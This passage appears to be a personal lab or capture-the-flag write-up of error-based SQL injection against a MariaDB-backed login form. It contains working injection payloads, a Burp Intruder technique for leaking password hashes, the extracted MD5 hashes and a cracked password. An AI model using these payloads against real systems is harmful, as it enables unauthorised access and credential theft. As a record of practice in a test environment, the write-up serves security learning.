 With very little trial and error we get the following to **not** trigger an error, so we can guess that we want to target the *users* table.

```http
username=admin%27+OR+1=(SELECT+1+FROM+users+LIMIT+1)+;--+-
```

Other things that do not trigger errors are the following

```http
username=admin%27+OR+1=(SELECT+username+FROM+users+LIMIT+1)+;--+-
```

```http
username=admin%27+OR+1=(SELECT+password+FROM+users+LIMIT+1)+;--+-
```

In this case i simply looked for examples of error based SQL injection for MariaDB (from the error messages this is the one being used). I got the following payload which works pretty nicely for this website:

```http
username=admin%27+OR+ExtractValue('',Concat('=',SUBSTRING((SELECT+GROUP_CONCAT(password+SEPARATOR+0x2c)+FROM+users),§1§,10)))+;--+-
```

(part of the query is input for Burp Suite, as the error is shortened after some characters, so i had intruder change positions to extract all the hashes)

| username  | hash                             |
| --------- | -------------------------------- |
| admin     | 31a181c8372e3afc59dab863430610e8 |
| dthompson | c585d01f2eb3e6e1073e92023088a3dd |
| janderson | 1e68b6eb86b45f6d92f8f292428f77ac |
| mwatson   | 633b683cc128fe244b00f176c8a950f5 |

Turns out the password is an easy one in md5, **greencacti2001**. (used crackstation for this)

Now we can [[login]].